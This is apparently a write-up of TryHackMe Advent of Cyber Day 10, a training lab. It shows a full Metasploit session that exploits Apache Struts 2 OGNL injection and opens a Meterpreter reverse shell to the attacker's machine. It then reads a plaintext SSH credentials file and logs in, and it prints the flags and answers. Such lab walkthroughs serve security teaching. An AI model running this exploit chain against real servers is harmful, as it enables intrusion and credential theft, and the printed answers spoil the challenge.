 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 10
### References
* Spring, B. (2019, December 9). Metasploit: Basics. TryHackMe Blog. https://blog.tryhackme.com/metasploit/
## Compromise the web server using Metasploit. What is flag1?
* According to the [blog post](https://blog.tryhackme.com/metasploit/):
> The Christmas challenge will include a web server that is running a vulnerable version of Apache Struts 2 (an open-source web application framework for Java applications).
* The [blog post](https://blog.tryhackme.com/metasploit/) uses `exploit/multi/http/struts2_content_type_ognl`:
![`exploit/multi/http/struts2_content_type_ognl`](https://blog.tryhackme.com/content/images/2019/12/Screenshot-from-2019-12-09-20-48-19.png)

```bash
$ msfconsole -q
msf6 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution

msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.194.217
RHOSTS => 10.10.194.217
msf6 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST tun0
LHOST => 10.4.32.172
msf6 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.4.32.172:4444 
[*] Sending stage (980808 bytes) to 10.10.194.217
[*] Meterpreter session 1 opened (10.4.32.172:4444 -> 10.10.194.217:41814) at 2021-06-29 15:52:56 +1000

meterpreter > shell
Process 52 created.
Channel 1 created.
$ find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
$ exit
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

**Flag 1**: `THM{3ad96bb13ec963a5ca4cb99302b37e12}`
## Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-09 08:12:45 +1100  santa

meterpreter > cd santa
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-09 08:12:44 +1100  ssh-creds.txt

meterpreter > cat ssh-creds.txt 
santa:rudolphrednosedreindeer
```

**Answer**: `rudolphrednosedreindeer`
## Who is on line 148 of the naughty list?
```bash
 ssh santa@10.10.194.217
santa@10.10.194.217's password: rudolphrednosedreindeer
[santa@ip-10-10-194-217 ~]$ sed '148!d' naughty_list.txt 
Melisa Vanhoose
```
**Answer**: `Melisa Vanhoose`
## Who is on line 52 of the nice list?
```bash
[santa@ip-10-10-194-217 ~]$ sed '52!d' nice_list.txt 
Lindsey Gaffney
```
**Answer**: `Lindsey Gaffney`